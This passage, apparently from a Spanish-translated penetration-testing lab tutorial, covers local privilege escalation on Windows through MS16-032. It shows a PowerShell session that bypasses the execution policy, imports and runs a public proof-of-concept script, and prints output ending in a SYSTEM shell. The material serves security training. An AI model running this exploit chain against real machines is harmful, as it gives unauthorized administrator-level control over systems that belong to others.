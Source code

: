 Mirando a través de los resultados, podemos ver una lista bastante extensa, algunos módulos de metasploit y algunas exploits POC independientes. Debemos filtrar a través del ruido, eliminar cualquier exploits de denegación de servicio y hazañas que no tengan sentido para nuestro sistema operativo objetivo. Uno que se destaca inmediatamente como interesante es MS16-032. Se puede encontrar una explicación detallada de este error en este[Publicación de blog del Proyecto Zero](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html)que es un error en el servicio de inicio de sesión secundario.

#### Explotación de MS16-032 con PowerShell POC

Usemos un[POWERSHELL POC](https://www.exploit-db.com/exploits/39719)intentar explotar esto y elevar nuestros privilegios.

  Versiones de escritorio de Windows

```powershell-session
PS C:\htb> Set-ExecutionPolicy bypass -scope process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): A
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y


PS C:\htb> Import-Module .\Invoke-MS16-032.ps1
PS C:\htb> Invoke-MS16-032

         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 6
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1656

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1652
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```
